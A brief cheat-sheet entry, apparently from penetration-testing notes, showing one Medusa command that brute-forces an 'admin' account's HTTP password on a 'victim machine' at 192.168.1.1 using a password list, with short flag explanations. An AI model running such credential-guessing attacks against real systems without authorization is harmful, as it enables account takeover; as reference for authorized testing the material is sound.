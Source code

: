 # Medusa

* medusa -h 192.168.1.1 -u admin -P passwords.txt -M http -m DIR:/admin -T 20
  * -h 192.168.1.1 is the victim machine IP address
  * -u admin specifies admin whose passwords we are cracking.
  * other details could be found in medusa man page.
* 
